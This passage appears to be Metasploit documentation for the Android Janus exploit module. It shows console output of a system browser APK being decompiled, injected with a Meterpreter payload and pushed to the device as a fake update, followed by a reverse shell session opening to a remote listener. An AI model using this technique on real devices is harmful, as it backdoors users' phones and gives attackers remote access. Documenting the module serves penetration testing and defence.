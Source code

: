 ```
resource (janus.rb)> set verbose true
verbose => true
resource (janus.rb)> run
[+] Android version 6.0.1 appears to be vulnerable.
[+] Android security patch level 2016-12-01 is vulnerable
[*] Downloading APK: /system/priv-app/UmeBrowser/UmeBrowser.apk
[*] Decompiling original APK..
[*] Decompiling payload APK..
[*] Locating hook point..
[*] Adding payload as package com.ume.browser.northamerica.onhad
[*] Loading /tmp/d20191105-15343-1heobn1/original/smali/com/ume/browser/UmeApplication.smali and injecting payload..
[*] Rebuilding apk with meterpreter injection as /tmp/d20191105-15343-1heobn1/output.apk
[*] Uploading APK: /sdcard/app.apk
[*] APK uploaded
[*] User should now have a prompt to install an updated version of the app
msf5 exploit(android/local/janus) >
```

Install the app on the phone.  For this app, clicking Open was not required, the shell was immediate.

![phone 1](https://user-images.githubusercontent.com/752491/68260086-d404a000-0009-11ea-96bc-aa3700570326.png)
![phone 2](https://user-images.githubusercontent.com/752491/68260085-d404a000-0009-11ea-9a10-b4da9c322996.png)
![phone 3](https://user-images.githubusercontent.com/752491/68260084-d404a000-0009-11ea-8256-92803b5d2ec8.png)

```
WARNING: Local file /root/metasploit-framework/data/android/metstage.jar is being used
WARNING: Local file /root/metasploit-framework/data/android/meterpreter.jar is being used

[*] Sending stage (73445 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:38676) at 2019-11-05 20:12:38 -0500

[-] Unknown command: (installing.
msf5 exploit(android/local/janus) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: u0_a34
meterpreter > pwd
/data/user/0/com.ume.browser.northamerica/files
```
